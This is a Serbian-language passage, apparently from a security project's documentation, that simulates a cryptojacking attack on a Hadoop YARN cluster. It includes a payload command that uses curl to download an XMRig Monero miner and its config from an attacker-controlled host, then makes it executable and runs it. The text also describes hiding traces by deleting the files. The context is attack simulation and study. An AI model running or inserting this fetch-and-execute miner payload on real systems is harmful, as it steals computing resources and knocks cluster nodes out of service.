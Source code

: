 ### _Crypto mining_ aplikacija
Obaviće se simulacija napada tako što će se pokrenuti lokalni server koji će skladištiti potrebne fajlove kripto majnera. Zatim će se se izvršiti maliciozni posao čiji opis predstavlja preuzimanje i pokretanje kripto majnera.

Pokrenuti lokalni server:
``` sh
python -m http.server 15066
```

Potrebno je preuzeti neki od _light_ kripto majnera i iskonfigurisati ga u zavisnosti od motivacije i ciljne platforme [[13]](#[13])[[14]](#[14]). Dostupni su kripto majneri sa vrlo širokim skupom podešavanja, poput postavljanja višestrukih kripto adresa, pokretanja u _IDLE_ režimu, rudarenja u određenim vremenskim trenucima, dinamičkog nivoa opterećenja resursa i tako dalje. Fokus je na kripto majnerima koji eksploatišu centralni procesor, budući da grafički procesori obično nisu prisutni na _Hadoop_ serverima. Najčešće izabrana kripto valuta je _Monero_, pošto se pokreće na centralnom procesru i nudi visok nivo anonimnosti. 


Ažurirati _payload_ za preuzimanje i pokretanje kripto majnera [[15]](#[15])[[16]](#[16]). 
```python
"command": f"curl -o xmrig http://{attacker_address}:{attacker_port}/xmrig && "  
           f"curl -o config.json http://{attacker_address}:{attacker_port}/config.json && "
           "chmod +x xmrig && " 
           "./xmrig"
```
Dakle, izvršiće se preuzimanje samog binarnog fajla kripto majnera, kao i konfiguracionog fajla sa željenim postavkama. Zatim će se dodeliti privilegije izvršavanja binarnom fajlu. Nakon čega će se izvršiti pokretanje i brisanje binarnog i konfiguracionog fajla kako bi se prikrili tragovi.

Čitav _NodeManager_ čvor, unutar kog je pokrenut _ApplicationMaster_ kontejner, je opterećen na 100%, čime se postiže praktična neupotrebljivost čvora klastera zaduženog za obradu poslova.

![Napad A4111 crypto mining aplikacija](./Napad_A4111_crypto_mining_aplikacija.png)
_Slika 3: Rezultat pokretanja crypto mining posla_
